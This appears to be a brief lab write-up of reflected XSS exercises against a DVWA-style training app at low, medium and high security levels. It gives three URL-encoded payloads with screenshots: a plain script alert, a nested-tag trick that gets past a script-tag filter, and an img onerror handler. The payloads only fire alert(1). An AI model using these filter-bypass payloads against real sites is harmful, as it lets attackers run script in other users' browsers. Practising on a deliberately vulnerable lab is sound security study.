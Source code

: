 

# xss(reflected)

## low

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(1)%3C/script%3E
```

![image-20250827192026124](images/image-20250827192026124.png)

## mid

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cscr%3Cscript%3Eipt%3Ealert(1)%3C/script%3E
```

![image-20250827192133605](images/image-20250827192133605.png)

## high

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cimg%20src%20=%201%20onerror%20=%20alert(1)%3E#
```

![image-20250827192617660](images/image-20250827192617660.png)
